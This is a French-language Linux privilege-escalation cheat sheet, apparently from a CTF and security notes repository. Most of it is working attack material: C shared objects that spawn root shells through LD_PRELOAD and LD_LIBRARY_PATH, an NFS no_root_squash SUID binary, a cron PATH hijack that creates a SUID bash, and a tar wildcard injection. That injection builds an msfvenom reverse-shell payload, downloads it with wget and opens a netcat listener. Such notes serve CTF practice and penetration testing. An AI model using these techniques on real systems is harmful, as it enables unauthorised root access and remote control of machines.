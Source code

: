 # Linux

Des techniques pour de la PrivEsc sur linux !

## Commande find

```
- find . -name flag1.txt: find the file named “flag1.txt” in the current directory
- find /home -name flag1.txt: find the file names “flag1.txt” in the /home directory
- find / -type d -name config: find the directory named config under “/”
- find / -type f -perm 0777: find files with the 777 permissions (files readable, writable, and executable by all users)
- find / -perm a=x: find executable files
- find /home -user frank: find all files for user “frank” under “/home”
- find / -mtime 10: find files that were modified in the last 10 days
- find / -atime 10: find files that were accessed in the last 10 day
- find / -cmin -60: find files changed within the last hour (60 minutes)
- find / -amin -60: find files accesses within the last hour (60 minutes)
- find / -size 50M: find files with a 50 MB size

- find / -type f -perm -04000 -ls 2>/dev/null
- find / -perm -u=s -type f 2>/dev/null: Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user. 

- find / -writable -type d 2>/dev/null  : Find world-writeable folders
- find / -perm -222 -type d 2>/dev/null : Find world-writeable folders
- find / -perm -o w -type d 2>/dev/null : Find world-writeable folders
- find / -perm -o x -type d 2>/dev/null : Find world-executable folders

Find development tools and supported languages:

- find / -name perl*
- find / -name python*
- find / -name gcc*
```
## LD_PRELOAD

```
The steps of this privilege escalation vector can be summarized as follows;

    Check for LD_PRELOAD (with the env_keep option)
    Write a simple C code compiled as a share object (.so extension) file
    Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

## NFS

```
cat /etc/exports
```

![image](https://github.com/LoKyOnTheCode/Securite-Informatique-et-CTF/assets/97956863/abe3fe15-addc-4f91-8150-3dd064e5e346)

tout ce qui contient "no_root_squash" est suscpetible de permettre un PrivEsc.
<br>
Pour checker les repertoires à distance
[Attaquant]
```
showmount -e <ip_distante>
```
```
mount -o rw <ip_distante>:/backups /tmp/backup
```
Script 'privEsc.c'

```
int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

```
gcc privEsc.c -o privEsc -w
chmod +s privEsc
```

[Victime]
```
./privEsc
```
<br>
<br>
## Sudo - Environment Variables

Quand `sudo -l` si LD_PRELOAD ou LD_LIBRARY_PATH, qui sont des librairies partagées, il est possible de faire un PrivEsc avec 

Créer un objet partagé dans le répertoire `/home/user/tools/sudo/preload.c`
```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```
```
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```
Script `preload.c`
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}

```

### Apache2 & LD_LIBRARY_PATH

Pour savoir quelles librairies sont utilisées avec apache2

```
ldd /usr/sbin/apache2
```
Créer un objet partagé avec le même nom que un de ceux qui ont été affiché

```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

Lancé apache2 avec sudo 

```
sudo LD_LIBRARY_PATH=/tmp apache2
```

Script `library_path.c`

```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

<br>
<br>
## Cron Jobs - PATH Environment Variable

Exemple
```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

Checker la variable `PATH` dans /etc/crontab, choper un endroit qui est `writable` par notre utilisateur et y créer un petit script `overwrite.sh` dans `/home/user`

```
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```
```
chmod +x overwrite.sh
```

puis 

```
/tmp/rootbash -p
```

## Cron Jobs - Wildcard

Cas de `tar` (Cf. Crontab au dessus)

```
user@debian:~$ cat /usr/local/bin/compress.sh 
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

[Attaquant]
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
chmod +x /home/user/shell.elf
python -m http.server
```

[Victime] (Cf. <a href="https://gtfobins.github.io/gtfobins/tar/">GTFObins</a>)

```
wget http://IP:8000/shell.elf
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

[Attaquant]
```
nc -lnvp 1337
```
